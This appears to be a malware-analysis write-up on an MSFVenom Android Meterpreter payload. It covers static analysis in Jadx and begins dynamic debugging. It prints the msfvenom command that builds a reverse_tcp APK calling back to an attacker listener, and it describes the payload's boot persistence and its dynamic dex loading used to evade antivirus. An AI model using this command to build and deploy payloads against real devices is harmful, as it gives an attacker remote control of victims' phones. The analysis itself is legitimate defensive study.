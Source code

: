 # Analysing MSFVenom Android Payload (Malware)

MSFVenom is one of the most popular framework to create payloads, shellcodes, etc. I want to analyse a little bit a MSFVenom Android payload. So
<p align="center">
<img src="https://user-images.githubusercontent.com/36133745/164783235-d8df38a6-e0f3-4e68-9f64-57fa21b98435.gif">
</p>

## 🎬 Part 1 - Creating an Android payload with MSFVenom
Run your Kali Linux distibution (I use vagrant kalilinux/rolling box) and open a terminal.
```bash
# Installing Kali Linux Box
vagrant box add kalilinux/rolling

# Create a Kali Linux VM
mkdir -p /home/$USER/Desktop/vagrantmachines/kali
cd /home/$USER/Desktop/vagrantmachines/kali
vagrant init kalilinux/rolling

# Set Kali Network to Bridge
# Add below line into Vagrantfile file below config.vm.box = "kalilinux/rolling"
  config.vm.network "public_network"
# Save and Exit from Vagrantfile

# Execute Kali Machine
vagrant up

# SSH to Kali Machine
vagrant ssh

# If you want to turn it off just execute below command after you exit from ssh
vagrant halt
```

Simply execute below command.
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=$(ip addr show eth0 | grep -Po 'inet \K[\d.]+') LPORT=1337 > malicious.apk
```
* `-p`: choosing payload
* `LHOST`: listener IP address (C2)
* `LPORT`: listener Port number (C2)
* `> malicious.apk`: output of executed command (attacker payload)

After that, I copy **malicious.apk** to `/vagrant` which let me to access it from my computer.
```bash
cp malicious.apk /vagrant
```
## 🎬 Part 2 - Static Analysis with Jadx-Gui

Now I have **malicious.apk** besides **Vagrantfile**. Let's start static analysis.
Open it with Jadx-Gui. Let's see what AndroidManifest.xml does have for us.

![1](https://user-images.githubusercontent.com/36133745/166328267-ec5c9ddb-8230-46af-a575-adfddb1e6d27.png)

We have an activity called `MainActivity` (package: `com.metasploit.stage`) which is our first activity that'll execute.

![2](https://user-images.githubusercontent.com/36133745/166329390-42daa913-cba3-47cf-a4a4-2e2a4c920286.png)

We can also see there is a `BroadcastReceiver` with `android.intent.action.BOOT_COMPLETED` action. It is obvious that this malware use this permission to execute itself after restarting mobile.

![3](https://user-images.githubusercontent.com/36133745/166330015-7593e85c-5e8b-41fc-8b68-32822610297c.png)

Let's have a look at `MainActivity`. It simply calls `startService()` method from `MainService` class.

![4](https://user-images.githubusercontent.com/36133745/166330313-13e44b33-d638-415b-8e96-2b58dd130cce.png)

`MainService` class extended (inherited) from Service, so it's a service that we are dealing with.

![5](https://user-images.githubusercontent.com/36133745/166335467-a7932269-6aeb-466d-b9a2-564b14362811.png)

In this method again `startService` function called, but as we said we are in a service and it calls `MainService.class` in `Intent()`.
```java
public static void startService(Context context) {
    context.startService(new Intent(context, MainService.class));
}
```

So this time `onStartCommand()` method will call. `onStartCommand()` is called every time a client starts the service using `startService(Intent intent)`.

![6](https://user-images.githubusercontent.com/36133745/166336169-c9477814-cce5-4b93-88a8-65e24d209fd1.png)

This method, calls `start()` from `Payload` class. Now let's go deeper and see what `start()` method does.

![7](https://user-images.githubusercontent.com/36133745/166661952-7600a5cf-7f6d-439a-9e00-56d015cabfc1.png)

`start()` function calls `startInPath()` function, and `startInPath()` function calls `e().start()` that lead us to analyse that class and method.

![8](https://user-images.githubusercontent.com/36133745/166662358-72e3cd42-f85c-4539-9df1-311b01198ed2.png)

There is nothing but execute `main()` method from `Payload` class again. We have to back where we were and analyze `main()` function.

![9](https://user-images.githubusercontent.com/36133745/166662629-60f69553-b52f-451d-95b3-54b8dca90517.png)

It's a huge function that can't be even fit in one screenshot. We can see there is a `Socket socket` which indicates we are dealing with a socket connection that's probably attacker C2. Also there is a line contains `a a2 = b.a(a);`. It passes `a` variable to `b.a()` method and save results in `a2`. Left-click on `a` parameter and press `d` on your keyboard (that is a shortcut to get you where variable is decalred).

![10](https://user-images.githubusercontent.com/36133745/166663408-d2ac014a-df8f-429f-aa2c-00d5f090a1e9.png)

It seems a huge array which i guess it can be an IP address or an URL. To make sure of this, I go to `b.a()` method.

![11](https://user-images.githubusercontent.com/36133745/166663788-8a4c2e27-2b9d-4e75-b698-266b7faf0ef0.png)

Again it's a huge function, but this is obvious it decrypts that array. I don't want to waste of my time and try to understand that algorithm, I'll deal with it in dynamic analysis part. But we have to figure it out where it stores the decrypted data. You can see `gVar` everywhere in this function.

![12](https://user-images.githubusercontent.com/36133745/166664915-cee79b68-cb99-46dd-bc10-af7a29f91f48.png)

If you open `g()` class, you can see there is nothing but bunch of variables. Now I'm sure it stores the decrypted data in that class's variables.

![13](https://user-images.githubusercontent.com/36133745/166665135-c1c47aa9-a4d6-416a-9abc-cce98874e327.png)

In the `Payload.main()`, after that decryption method, we can see bunch of `while(){}`, `try{}` and `if(){}`.

![14](https://user-images.githubusercontent.com/36133745/166667336-c7e6bacd-461b-497c-864d-919407e9e453.png)

Take a look at where I pointed (ofc with red arrow).

![15](https://user-images.githubusercontent.com/36133745/166668085-a8945a36-98e1-4715-b294-7dc6957edf14.png)


You can see we have a `socket.getOutputStream()` there that passed to `a()`. If you go to where `a()` declared, you see there's `getClassLoader()`. This method let you load the Dex file dynamically. It uses to bypass AV, besides it makes APK file size smaller.

Overall, this APK file connects to attacker C2 (MSFVenom) and downloads a Dex (or JAR) file, loads it and after that, it will be deleted. Now Let's continue our journey in dynamic analysis part.

## 🎬 Part 3 - Dynamic Analysis

First of all, I use `adb` to install our payload.
```shell
adb install malicious.apk
```
Now for the second step of dynamic analysis, I want to extract attacker C2 IP address. As we saw in static analysis, decrypted attacker IP address is in the `g()` class. Let's dump data from that class. I use **Android Studio** to do this. But an important things that worth to mention is "We have to do this quickly before malware close itself and run itself as a service", because you saw it creates a service after exectuion. Make sure your USB Debuggign is enabled.

![16](https://user-images.githubusercontent.com/36133745/166671370-f434b2af-8130-4f7c-836b-f10a8b211d5f.png)

But we have to do one thing more before debugging. We have to make this malicious APK debuggable. To do this as easy as possible, I do this with **![APKLab](https://github.com/APKLab/APKLab)**. The installation steps explained in **![APKLab Github](https://github.com/APKLab/APKLab)**.

Open **Android Studio** and choose **Profile or Debug APK**.

![17](https://user-images.githubusercontent.com/36133745/166672132-90e6ce28-5444-4675-baba-527b93b11960.png)


Now instead of sending 10 images, I would rather to make a GIF to show the process how to extract data from `g()` class.


